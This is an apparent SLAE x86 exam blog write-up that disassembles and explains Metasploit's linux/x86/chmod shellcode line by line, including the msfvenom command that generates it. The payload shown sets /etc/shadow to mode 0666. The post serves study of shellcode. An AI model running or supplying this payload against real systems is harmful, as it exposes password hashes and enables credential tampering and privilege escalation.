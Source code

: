 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 5 - Part 2"
categories: certs slae 
---
```



## Assignment #5 - Analyzing shellcode
_Student ID: **PA-7854**_

In this second part, we will analize the next Metasploit's payload: *linux/x86/chmod*.

The code is available at [my github repo](https://github.com/0xKiewicz/SLAE).

We will generate payloads with `msfvenom` as follows:

#### linux/x86/chmod

```bash
# msfvenom -p linux/x86/chmod -f raw --platform linux -a x86 -o /tmp/chmod-shadow.txt
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Saved as: /tmp/chmod-shadow.txt
```

Running it with no other parameters, FILE defaults to `/etc/shadow` and MODE defaults to `0666`. 

We dissect the generated file with `ndisasm`:
```nasm
# ndisasm -u /tmp/chmod-shadow.txt 
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

Let's start analyzing again, line by line.
```nasm
00000000  99                cdq
```
_Convert Double Quad_. This is like a `xor edx, edx`, it copies the sign bit (+ or -, bit 31) of the value in EAX into every bit of the EDX register.


```nasm
00000001  6A0F              push byte +0xf
```
We push the value 0xf (15 in decimal) which corresponds to the chmod syscall.

```nasm
00000003  58                pop eax
```
Here we pop out that value and assign it to EAX.

`chmod` function signature is:
```c
int chmod(const char *pathname, mode_t mode);
```
Which we wil push ['/etc/shadow'],[0666], let’s see how this is being implemented.

```nasm
00000004  52                push edx
```
Save the value of EDX (which are NULL bytes), string delimiter, in stack.

```nasm
00000005  E80C000000        call 0x16
```
Again, this is supposed to call a function located at address 0x16 (`pop ebx` in this case). 
This is a technique so that the next instruction’s address is saved in stack. Next 7 lines are ambiguous. Call address location, which is 0x05, +0x4 (holds 4 bytes) + 0x1 should be the address holding the next instruction, which starts right below at 0xa. We can confirm this with xxd:

```bash
# echo 2f6574632f736861646f7700 | xxd -r -p
/etc/shadow
```

That's the FILE previously entered in `msfvenom`. Let’s keep analyzing, by skipping the first 22 characters, until the NULL byte after `/etc/shadow` string, so that `ndisasm` shows the instructions correctly:
```nasm
# ndisasm -u -e 22 /tmp/chmod-shadow.txt 
00000000  5B                pop ebx
00000001  68B6010000        push dword 0x1b6
00000006  59                pop ecx
00000007  CD80              int 0x80
00000009  6A01              push byte +0x1
0000000B  58                pop eax
0000000C  CD80              int 0x80
```

```nasm
00000000  5B                pop ebx
```
EBX holds the pointer to ESP, which is currently `/etc/shadow`.

```nasm
00000001  68B6010000        push dword 0x1b6
```
Push the value `0x1b6` which in octal notation is `666`, the MODE previously entered in `msfvenom`.

```nasm
00000006  59                pop ecx
```
ECX holds the pointer to ESP, which is currently `666`.

```nasm
00000007  CD80              int 0x80
```
This instruction should be familiar, makes an interrupt and executes the syscall (`chmod`).

```nasm
00000009  6A01              push byte +0x1
0000000B  58                pop eax
0000000C  CD80              int 0x80
```
These last lines of code are just a syscall to exit gracefully. `exit` syscall value is `1`.

Basically the syscall contains: _chmod('/etc/shadow', 0666)_
